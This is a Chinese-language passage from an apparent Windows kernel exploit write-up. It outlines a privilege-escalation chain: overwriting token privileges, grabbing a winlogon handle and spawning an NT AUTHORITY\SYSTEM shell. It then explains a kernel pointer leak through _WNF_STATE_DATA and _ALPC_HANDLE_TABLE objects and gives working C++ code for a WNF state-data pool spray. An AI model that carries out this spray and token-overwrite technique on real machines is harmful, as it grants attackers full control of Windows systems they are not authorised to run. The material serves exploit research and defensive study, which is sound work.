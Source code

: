 1. 覆盖令牌权限获得完整权限！  
  
1. 获取 winlogon 进程的句柄  
  
1. 弹出 NT AUTHORITY\SYSTEM  
 shell!!!  
  
## 获取内核指针泄露  
  
我们将使用两个内核对象来获取内核指针泄露：_WNF_STATE_DATA  
 和_ALPC_HANDLE_TABLE  
。  
  
让我们先看看_WNF_STATE_DATA  
:  
```
struct _WNF_STATE_DATA {
    struct _WNF_NODE_HEADER Header;                                         //0x0
    ULONG AllocatedSize;                                                    //0x4
    ULONG DataSize;                                                         //0x8
    ULONG ChangeStamp;                                                      //0xc
}; 
```  
  
Windows 通知设施 (WNF) 是一个未公开的内核组件，用于在系统中发送通知。用于发送通知的数据存储在_WNF_STATE_DATA  
对象中，该对象在分页池中分配，由大小为 0x10 的头部和紧随其后的数据组成。允许的最大 DataSize 为 0x1000，但这对我们来说不会造成问题，因为我们正在处理大小为 0x1000 的对象 (使用 0xff0 的 DataSize 意味着分配的 WNF 对象大小为 0x1000)。  
  
为了准备_WNF_STATE_DATA  
喷射，我们可以执行以下操作：  
```
    #define NUM_WNFSTATEDATA 0x450 
    #define WNF_MAXBUFSIZE 0x1000 
    PWNF_STATE_NAME_REGISTRATION PStateNameInfo = NULL;
    WNF_STATE_NAME StateNames[NUM_WNFSTATEDATA] = { 0 };
    PSECURITY_DESCRIPTOR pSD = nullptr;
    NTSTATUS state = 0;
    char StateData[0x1000];

    printf("[+] Prepare _WNF_STATE_DATA spray\n");
    memset(StateData, 0x41, sizeof(StateData));

    if (!ConvertStringSecurityDescriptorToSecurityDescriptor(L"", SDDL_REVISION_1, &pSD, nullptr)) {
        cout << "ConvertStringSecurityDescriptorToSecurityDescriptor failed! error=" << GetLastError() << endl;
        return -1;
    }

    for (int i = 0; i < NUM_WNFSTATEDATA; i++) {
        state = NtCreateWnfStateName(&StateNames[i], WnfTemporaryStateName, WnfDataScopeUser, FALSE, NULL, WNF_MAXBUFSIZE, pSD);
        if (state != 0) {
            cout << "NtCreateWnfStateName failed! error=" << GetLastError() << endl;
            return -1;
        }
    }
```  
  